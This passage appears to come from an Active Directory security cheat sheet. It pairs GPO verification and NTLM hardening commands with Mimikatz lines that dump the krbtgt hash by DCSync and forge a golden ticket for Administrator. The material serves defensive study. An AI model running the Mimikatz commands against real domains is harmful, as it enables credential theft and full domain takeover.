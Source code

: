 ```powershell
(Get-Acl "AD:\CN=Configuration,DC=yourdomain,DC=com").Access |
Where-Object { $_.ActiveDirectoryRights -like "*Replicating*" }
```

---

## 🛠️ **Credential Dumping & Mimikatz**

### 🧪 Commands

```mimikatz
lsadump::dcsync /domain:yourdomain.local /user:krbtgt
kerberos::golden /domain:yourdomain.local /sid:S-1-5-21-xxx /krbtgt:NTLMHASH /user:Administrator /id:500 /ptt
```

---

## 🔄 **Group Policy & Enforcement Verification**

### 🔁 Refresh GPOs

```powershell
gpupdate /force
Invoke-GPUpdate -Force
```

### 📋 View Resultant Policies

```powershell
gpresult /SCOPE COMPUTER /V
rsop.msc
```

### 🔐 Confirm NTLMv2 Settings

```powershell
Get-GPO -All | Where-Object { $_.DisplayName -like "*NTLMv2*" }
```

---

## 🔒 **Hardening NTLM and LM Configurations**

### 🔧 Registry (PtH Mitigation)

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -Value 0 -Type DWord
```

### 📜 GPO Policies to Set
